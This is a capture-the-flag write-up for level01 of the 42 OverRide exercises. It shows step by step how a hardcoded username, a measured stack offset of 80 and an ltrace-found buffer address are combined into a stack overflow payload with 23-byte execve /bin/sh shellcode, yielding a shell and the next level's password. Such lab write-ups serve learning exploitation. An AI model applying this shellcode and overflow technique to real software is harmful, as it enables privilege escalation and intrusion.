 # 1st Step
List the files will show us `level01` executable
```
level01@OverRide:~$ ls -l
total 8
-rwsr-s---+ 1 level02 users 7360 Sep 10  2016 level01
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: bla
verifying username....

nope, incorrect username...

level01@OverRide:~$
```
The program waits for a username/password and exit if it's not good.  
After analyze it with gdb we can find three interesting functions : `main()`, `verify_user_name` and `verify_user_pass`.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-OverRide/blob/main/level01/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-OverRide/blob/main/level01/source.c) for more details.  
A first read of ASM code allows us to see that function `verify_user_name` compares the user name to "dat_wil" and function `verify_user_pass` compares password to "admin".  
By looking closely to the code we can see that finding the password won't help us! Since there is no calls to `/bin/sh`, we can assume we'll have to use a shellcode this time.  
We'll have to write over `eip` in order to execute our shellcode, so first get the offset :
```
(gdb) run
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
Thanks to the pattern generator we found an offset of 80.  
As the program use `fgets()` function we should not be able to make a buffer overflow but `fgets()` take a max string of 100 chars wich is more than the size of our buffer (64).  

## Create our exploit
*shellcode found [here](http://shell-storm.org/shellcode/files/shellcode-827.php) (23 bytes)*  
We'll use `ltrace` to find the buffer address where the password is stored:
```
level01@OverRide:~$ ltrace ./level01
__libc_start_main(0x80484d0, 1, -10364, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********)           = 39
printf("Enter Username: ")                                                                  = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)                                                               = 0x0804a040
puts("verifying username....\n"verifying username....)                                      = 24
puts("Enter Password: "Enter Password:)                                                     = 17
fgets(doesn't matter
"doesn't matter\n", 100, 0xf7fcfac0)                                                        = 0xffffd69c    <--- here she are
puts("nope, incorrect password...\n"nope, incorrect password...)                            = 29
+++ exited (status 1) +++
level01@OverRide:~$
```
Our input will be as follow :  
bytes 1-7: "dat_wil", to pass the `verify_user_name` function.  
byte  8: '\n', so that the first `fgets` stops taking user input.  
bytes 9-31: 23 bytes for our shellcode.  
bytes 31-88: 57 bytes of padding (23 + 57 = 80 to overwrite EIP with the next 4 bytes).  
bytes 88-92: 0xffffd69c ("\x9c\xd6\xff\xff" in little endian)
```
level01@OverRide:~$ python -c 'print "dat_wil" + "\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "a" * 57 + "\x9c\xd6\xff\xff"' > /tmp/exploit
level01@OverRide:~$ cat /tmp/exploit - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
exit
quit
level01@OverRide:~$ su level02
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
level02@OverRide:~$
```
Level01 passed !
